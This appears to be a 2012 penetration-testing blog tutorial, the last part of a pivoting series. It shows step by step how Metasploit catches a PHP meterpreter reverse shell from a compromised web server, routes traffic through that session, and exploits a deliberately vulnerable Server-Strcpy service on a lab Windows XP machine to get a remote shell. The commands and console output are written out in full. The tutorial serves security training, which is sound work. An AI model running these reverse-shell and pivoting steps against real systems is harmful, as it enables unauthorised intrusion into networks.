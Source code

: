 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 4: Metasploit"
date: 2012-10-22 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-4.html
---
```


In this article, we'll look at pivoting using [Metasploit](http://www.metasploit.com/). If you have the option to use Metasploit, you'll find that it makes pivoting much easier. Metasploit can be installed on Linux, Windows, and Mac OS X, which makes it a pretty versatile tool. The number of modules included in the framework grows continuously, and its low learning curve makes it popular among hackers. 

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-22/01.jpg)

We've already compromised the web server and obtained some form of shell access to it, such as a reverse shell for instance. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I ported the python exploit we used in the previous articles into a Metasploit module which can be downloaded [here](http://techorganic.com/software/serverstrcpy.rb). It should be saved in ~/.msf4/modules/exploits/windows/misc/. 

### The attack

We begin by gaining access to the web server with Metasploit. We've created a PHP reverse meterpreter shell payload using php/meterpreter_reverse_tcp. This was copied to the web server and will connect back to our machine and give us a meterpreter shell when we load it. Let's start up our handler and gain our meterpreter shell: 

```
# msfcli exploit/multi/handler PAYLOAD=php/meterpreter_reverse_tcp LHOST=192.168.81.125 LPORT=9999 E
[*] Please wait while we load the module tree...
 
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
 
     Trace program: running
 
           wake up, Neo...
        the matrix has you
      follow the white rabbit.
 
          knock, knock, Neo.
 
                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`
 
 
       =[ metasploit v4.5.0-dev [core:4.5 api:1.0]
+ -- --=[ 961 exploits - 508 auxiliary - 153 post
+ -- --=[ 257 payloads - 28 encoders - 8 nops
 
PAYLOAD => php/meterpreter_reverse_tcp
LHOST => 192.168.81.125
LPORT => 9999
[*] Started reverse handler on 192.168.81.125:9999 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (192.168.81.125:9999 -> 192.168.81.181:64796) at 2012-10-05 16:26:12 -0400
 
meterpreter >
```

We've obtained a meterpreter shell on the web server. We'll need to background meterpreter so we can setup our pivot. To do this, we can use Metasploit's route command to associate the new route to our meterpreter session: 

```
meterpreter > background
[*] Backgrounding session 1...
msf  exploit(handler) > route add 192.168.63.0 255.255.255.0 1
[*] Route added
msf  exploit(handler) > route print
 
Active Routing Table
====================
 
   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.63.0       255.255.255.0      Session 1
 
msf  exploit(handler) >
```

Our pivot setup is now complete. Let's test it by exploiting Server-Strcpy using the serverstrcpy exploit module. The target port is already set to port 1000 by default, so all we have to do is specify the target IP address and the payload. For this example, we'll use the windows/shell_bind_tcp payload: 

```
msf  exploit(handler) > use exploit/windows/misc/serverstrcpy 
msf  exploit(serverstrcpy) > set RHOST 192.168.63.142
RHOST => 192.168.63.142
msf  exploit(serverstrcpy) > set PAYLOAD windows/shell_bind_tcp 
PAYLOAD => windows/shell_bind_tcp
msf  exploit(serverstrcpy) > exploit 
 
[*] Started bind handler
[*] Trying target Windows XP Pro SP2 English...
 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>        
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the target. This was an extremely easy setup, basically just using the route command within Metasploit to setup the pivot. 

This article concludes the series on introduction to pivoting. I started this series as a way to showcase different pivoting techniques that I hoped would be helpful to beginners. If the rules of engagement allow it, pivoting will allow you to show your clients just how serious a security breach can become if an attacker can tunnel deep into the network. 

